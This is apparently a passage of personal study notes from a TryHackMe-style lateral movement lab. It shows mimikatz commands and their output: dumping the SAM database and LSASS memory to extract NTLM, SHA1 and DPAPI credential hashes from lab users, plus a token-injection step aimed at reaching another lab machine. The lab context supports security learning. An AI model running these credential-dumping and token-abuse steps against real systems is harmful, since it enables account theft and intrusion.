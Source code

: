 <u>Output</u>:

```powershell
mimikatz # lsadump::sam                                                         
Domain : THMJMP2                                                                
SysKey : 2e27b23479e1fb1161a839f9800119eb                                       
Local SID : S-1-5-21-1946626518-647761240-1897539217                            

SAMKey : 9a74a253f756d6b012b7ee3d0436f77a                                       

RID  : 000001f4 (500)                                                           
User : Administrator                                                            
  Hash NTLM: 0b2571be7e75e3dbd169ca5352a2dad7                                   

RID  : 000001f5 (501)                                                           
User : Guest                                                                    

RID  : 000001f7 (503)                                                           
User : DefaultAccount
```

			- t1_toby.beck is NOT in here. Let's try to look for its hash in the LSASS memory dump.

	6. Extract NTLM hashes from LSASS Memory. (Alternative to getting hashes from the SAM)

			- Note that the primary goal is to be able to use the compromised credential and access the THMIIS machine.

```
Authentication Id : 0 ; 831441 (00000000:000cafd1)                              
Session           : RemoteInteractive from 5
User Name         : t1_toby.beck                                                
Domain            : ZA                                                          
Logon Server      : THMDC                                                       
Logon Time        : 2/9/2023 5:14:10 AM                                         
SID               : S-1-5-21-3330634377-1326264276-632209373-4607               
        msv :                                                                   
         [00000003] Primary                                                     
         * Username : t1_toby.beck                                              
         * Domain   : ZA                                                        
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe                          
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38                  
         * DPAPI    : d9cd92937c7401805389fbb51260c45f
```

	- Where exactly is this in memory?
	- If you were to reverse engineer it, is there a specific location like an offset of a memory of the executing process in which you can find these?

	7. Injecting an access token for the victim user on a reverse shell:

			- Reverse the access token using :

```powershell
mimikatz # token::revert
```
